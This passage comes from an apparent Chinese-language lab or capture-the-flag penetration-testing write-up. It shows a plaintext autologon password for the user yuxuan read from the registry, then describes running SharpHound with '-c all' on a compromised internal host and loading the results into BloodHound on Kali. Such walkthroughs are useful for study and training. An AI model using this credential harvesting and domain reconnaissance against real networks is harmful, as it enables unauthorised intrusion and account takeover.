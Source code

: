 ```plain
DefaultUserName    REG_SZ    yuxuan
DefaultPassword    REG_SZ    Yuxuan7QbrgZ3L
DefaultDomainName    REG_SZ    xiaorang.lab
```

这样就抓到了 yuxuan 密码

然后我们用 BloodHound 看一下域里面的结构

先把 SharpHound.exe 传到内网机中，然后

```plain
SharpHound.exe -c all
```

然后就可以得到 BloodHound 需要导入的 json 文件

在 kali 上面起一个 BloodHound

```plain
neo4j start 
//开启 neo4j
bloodhound
```

[![](assets/1706513339-1f2fae02e13d5573287ae9d6a914292f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128232216-05388c50-bdf1-1.png)

上传
